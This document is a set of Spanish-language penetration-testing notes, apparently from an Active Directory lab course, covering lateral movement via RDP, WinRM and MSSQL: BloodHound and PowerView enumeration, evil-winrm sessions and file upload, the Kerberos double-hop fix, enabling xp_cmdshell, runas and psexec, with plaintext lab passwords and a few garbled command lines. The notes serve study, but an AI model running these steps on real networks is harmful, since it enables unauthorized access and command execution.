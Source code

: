 #rdp #mssql #winrm
Nos planteamos este escenario cuando somos un usuario sin privilegios administrativos locales o de dominio. Aún podemos tratar de movernos entre distintos hosts. Bloodhound nos permite comprobar escenarios del tipo 
- [CanRDP](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canrdp)
- [CanPSRemote](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canpsremote)
- [SQLAdmin](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)
## RDP
### Enumerando usuarios y equipos del grupo RDesktop 
#### Comprobando usuarios que tienen acceso vía rdp a un equipo 
- Con Powershell `Get-NetLocalGroupMember`
	```powershell
	Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
	```
- Con `bloodound` 
	- Seleccionamos el nodo
	- Buscamos inbound execution rights (derechos de ejecución entrante)
	- Opciones RDP
#### Buscando equipos que permitan RDP 
- PowerView (No comprobado)
	```powershell
	$computers = Get-NetComputer -FullData | Select-Object dnshostname 
	foreach ($computer in $computers) { Get-NetLocalGroupMember -ComputerName $computer.dnshostname -GroupName "Remote Desktop Users" }
	```
- Bloodhound
	```cypher
	match p=(g:Group)-[:CanRDP]->(c:Computer)  where g.name STARTS WITH 'DOMAIN USERS'  AND c.operatingsystem CONTAINS 'Server'  return p
	```
## WinRM
### Enumerando usuarios del grupo Remote Managment
- **Con powerview** `Get-NetLocalGroupMember`
    ```powershell
     Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
    ```
    
- Con query personalizada en bloodhound
    ```
    MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p
    ```
### Estableciendo sesión
- Windows
	```powershell
		$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -ForcePS $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password) 
		Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
	```
-  Para subir/descargar archivos en una sesión `evil-winrm`
	- Subir archivos
		```powershell
		upload /home/user/scripts/exploit.ps1 C:\Users\Administrador\Desktop\exploit.ps1
		```
	- Descargar archivos
		```
		download C:\ruta\archivo.txt /ruta/local/archivo.txt
		```
- Linux
	```bash
	evil-winrm -i $target -u <username>
	```


### Estableciendo sesión - problema del double Hop
Dado que en WinRM obteenmos un ticket TGS, no podemos ejecutar algunos comandos que involucran comunicarse con otros hosts. Ejemplo:
```powershell
#Comando desde la máquina atacante para establecer powershell remoting (OK)
Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\\backupadm
# El comando a continuación ejecuta una solicitud LDAP o Kerberos a DC01 (Falla)
Get-DomainUser -SPN
```
#### Solución 1: **PSCredential Object**

Una posible solución es envíar nuevamente nuestras credenciales
```powershell
$SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\\backupadm', $SecPassword)
```

Ahora, si intentamos ejecutar comandos que involucren servicios con autenticación delegada e incluimos la flag `-credenti-Credentialal $Cred` , podremos acceder a estos servicios:
```powershell
get-domainuser -spn -credential $Cred | select samaccountname
```

#### Solución 2: **Register PSSession Configuration**

Otra solución es que en la sesión de autenticación se pasen, además de las credenciales de `backupadm` para que siempre se ejecuten los comandos con las credenciales de este usuario.
```powershell
Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\\backupadm
Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\\backupadm -ConfigurationName  backupadmsess
```

## SQL Server
### Enumerando usuarios con derechos de administrador en SQL
- Query personalizada de Bloodhound
	```cypher
	MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
	```
### PowerUpSQ,1443
- [Chuleta interesante](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
- Enumerando instancias de MSSQL    
    ```powershell
    cd .\\PowerUpSQL\\
    Import-Module .\\PowerUpSQL.ps1
    Get-SQLInstanceDomain
    ```
- Autenticando sobre una instancia MSSQL (Windows)
    ```powershell
    Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\\damundsen" -password "SQL1234!" -query 'Select @@version'
    ```
- Autenticando sobre una instancia MSSQL - Linux
    ```bash
    #Con credenciales Windows
    mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth 
    #Con credenciales mssql
    mssqlclient.py INLANEFREIGHT/netdb@172.16.7.60
    ```
- Una vez autenticados
	- Seleccionando  **enable_xp_cmdshell**
	    ```bash
	    SQL> enable_xp_cmdshell
	    ```

	- Ejecutando comandos a nivel de sistema
	    ```bash
	    xp_cmdshell whoami /priv
	    ```

## Obtener PS como otro usuario - Windows
### Runas
Runas no funciona sin una GUI (no funcionaría en una revshell ó WinRM)
- Ejecución de runas como `OTRO_USUARIO`
	```powershell
	runas /user:OTRO_USUARIO powershell
	```
	`runas` **NO eleva permisos automáticamente**, solo cambia de usuario.Para obtener permisos completos, debes **elevar la sesión con `-Verb runAs`**. Deberíamos escribir lo siguiente para obtener permisos completos (si los tiene `OTRO_USUARIO`)
	```powershell
	Start-Process powershell -Verb runAs
	```
	lo que nos dará acceso completo 
- Ejecucin de runas directamente con permisos elevados
	```powershell
	runas /user:OTRO_USUARIO "cmd /c start powershell -Verb runAs"
	```

### psexec
- Ejecutar ps como otro usuario
	```powershell
	psexec.exe -u DOMAIN\Username -p Password powershell.exe
	```

